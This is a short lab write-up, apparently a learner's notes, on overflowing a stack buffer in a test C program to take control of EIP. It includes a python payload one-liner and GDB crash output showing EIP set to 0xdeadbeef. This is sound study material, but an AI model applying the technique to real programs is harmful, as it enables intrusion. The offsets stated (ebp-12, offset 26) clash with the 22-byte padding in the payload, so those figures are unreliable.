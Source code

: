 # ✅ Buffer Overflow Milestone — Hijacking EIP

## Experiment Summary
- **Goal:** Overwrite the return address on the stack using a buffer overflow.
- **Program Setup:**
  - A simple 32-bit C program using `scanf()` to read user input into a local buffer (`char buffer[10];`).
  - Breakpoint set at `get_username()` inside GDB.

## Key Observations
- Buffer located at: `ebp - 12`
- Return address reached after: **26 bytes**
- Return address: **4 bytes long** (overwritten at offset 26)

## Payload Used
```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*22 + b"\xef\xbe\xad\xde")' > input.txt
```
- `"A"*22`: Fills buffer and saved EBP
- `\xef\xbe\xad\xde`: Little-endian format of `0xdeadbeef`

## Result
- Program crashed as expected
- GDB output:
  ```
  Program received signal SIGSEGV, Segmentation fault.
  0xdeadbeef in ?? ()
  ```
- `info registers` showed:
  ```
  eip            0xdeadbeef
  ```

## Conclusion
Successfully demonstrated a buffer overflow:
- Identified the exact offset to control EIP
- Proved exploitability by injecting a known address (`0xdeadbeef`)
- Ready to move on to shellcode or deeper stack control

